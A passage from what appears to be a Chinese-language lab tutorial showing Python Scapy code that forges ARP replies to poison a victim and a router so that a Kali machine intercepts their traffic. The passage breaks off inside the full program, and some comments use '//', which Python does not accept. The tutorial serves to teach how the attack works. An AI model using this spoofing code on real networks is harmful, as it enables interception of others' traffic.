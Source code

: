 arp_response = ARP()

arp_response.op = 2

arp_response.pdst = "192.168.74.129"

arp_response.hwdst = "00:0C:29:BE:47:14"

arp_response.hwsrc = "00:0c:29:90:79:02"

arp_response.psrc = "192.168.74.2"

send(arp_response)

我们将创建一个类似的函数来伪造路由器：

def 欺骗路由器():

arp_response = ARP()

arp_response.op = 2

arp_response.pdst = "192.168.74.2" // 路由器的 IP 地址

arp_response.hwdst = "00:50:56:ff:74:8b" // 路由器的 mac 地址

arp_response.hwsrc = "00:0c:29:90:79:02" // kali 的 mac 地址

arp_response.psrc = "192.168.74.129" // 假装是设备 A 的 IP

send(arp_response)

在这个函数中，我们已经改变了 `pdst`、`hwdst` 和 `psrc` 的值。

完整的程序如下：

from scapy.all import *

def 欺骗受害者():

arp_response = ARP()

arp_response.op = 2

arp_response.pdst = "192.168.74.129"

arp_response.hwdst = "00:0C:29:BE:47:14"

arp_response.hwsrc = "00:0c:29:90:79:02"

arp_response.psrc = "192.168.74.2"

send(arp_response)

def 欺骗路由器():

arp_response = ARP()

arp_response.op = 2

arp_response.pdst = "192.168.74.2"

arp_response.hwdst = "00:50:56:ff:74:8b"

arp_response.hwsrc = "00:0c:29:90:79:02"
